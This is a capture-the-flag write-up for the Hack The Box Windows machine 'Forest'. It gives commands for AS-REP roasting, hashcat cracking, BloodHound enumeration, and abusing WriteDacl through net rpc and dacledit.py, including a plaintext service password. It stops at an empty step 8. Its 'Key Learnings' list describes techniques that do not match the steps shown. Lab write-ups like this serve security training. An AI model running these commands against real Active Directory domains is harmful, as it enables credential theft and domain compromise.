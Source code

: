 # Forest

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Easy**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="719" height="1009" alt="image" src="https://github.com/user-attachments/assets/6fff85b0-bd86-4e80-a1eb-a5faa5a6ea4f" />

2. Nmap reveals we're dealing with a Domain Controller. Since we are not given initial credentials, attempt to get hashes via ASREProasting attack using Impacket's GetNPUsers.py script

`GetNPUsers.py -request -format hashcat -outputfile asreproastables.txt -dc-ip 10.129.95.210 'htb.local/'`

<img width="721" height="123" alt="image" src="https://github.com/user-attachments/assets/b7257a49-3010-43a5-b68a-c3dbad6b2352" />

3. Crack hash using hashcat to get svc-alfresco's plaintext password

`hashcat -m 18200 asreproastables.txt /usr/share/wordlists/rockyou.txt`

4. With svc-alfresco's credentials, run Bloodhound

`sudo bloodhound-python -d htb.local -u svc-alfresco -p $(cat ../svc-alfresco.password) -ns 10.129.95.210 -c all`

5. Bloodhound shows svc-alfresco user has WriteDacl permissions on the domain.

<img width="1157" height="375" alt="image" src="https://github.com/user-attachments/assets/418e40ba-cea6-4c3a-8c4f-d11b55b1f959" />

6. To exploit WriteDacl permission, first add svc-alfresco user to WINDOWS EXCHANGE PERMISSIONS group using net rpc

`net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" 'svc-alfresco' -U "htb.local"/'svc-alfresco' -S dc01.htb.local`

7. Then give svc-alfresco user FullControl rights using Impacket's dacledit.py script

`dacledit.py -action 'write' -rights 'FullControl' -principal 'svc-alfresco' -dc-ip dc01.htb.local -target-sid 'S-1-5-21-3072663084-364016917-1341370565' 'htb.local'/'svc-alfresco':'s3rvice'`

8.

